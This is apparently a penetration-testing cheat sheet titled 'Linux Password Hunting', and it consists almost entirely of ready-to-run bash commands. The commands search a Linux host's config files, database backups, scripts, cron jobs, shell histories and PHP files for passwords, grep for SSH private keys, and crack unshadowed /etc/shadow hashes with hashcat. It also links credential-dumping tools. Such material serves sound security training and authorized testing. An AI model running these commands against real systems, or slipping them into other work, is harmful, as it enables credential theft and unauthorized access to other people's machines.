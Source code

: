 ```yaml
---
description: Common Password Attack on Linux Machine
---
```


# Linux Password Hunting

### Config Files Search

{% code overflow="wrap" %}
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
{% endcode %}

### Credentials in Configuration Files

{% code overflow="wrap" %}
```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
{% endcode %}

### Database Backup Search

{% code overflow="wrap" %}
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
{% endcode %}

### Search Notes/txt Files

{% code overflow="wrap" %}
```bash
find /home/* -type f -name "*.txt"
```
{% endcode %}

### Search Scripts on Linux

{% code overflow="wrap" %}
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
{% endcode %}

### Search Cronjob

{% code overflow="wrap" %}
```bash
cat /etc/crontab
ls -la /etc/cron.*/
```
{% endcode %}

### Search SSH Private Key

{% code overflow="wrap" %}
```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```
{% endcode %}

### File History

{% code overflow="wrap" %}
```bash
find / -type f -name "*history" 2>/dev/null
tail -n5 /home/*/.*_history*
```
{% endcode %}

### Search Password in PHP Files

{% code overflow="wrap" %}
```bash
grep -iRl "password\|passwd" /var/www --include=*.php
```
{% endcode %}

### Cracking Linux Credentials

{% code overflow="wrap" %}
```bash
# unshadow local creds
unshadow passwd.bak shadow.bak > unshadow.hash
# Perform Dictionary Attack
hashcat -m 1800 -a 0 unshadow.hash /usr/share/wordlists/rockyou.txt -o cracked_shadow
```
{% endcode %}

### Tools

* [https://github.com/unode/firefox\_decrypt](https://github.com/unode/firefox\_decrypt)
* [https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)
* [https://github.com/AlessandroZ/LaZagne/tree/master/Linux](https://github.com/AlessandroZ/LaZagne/tree/master/Linux)
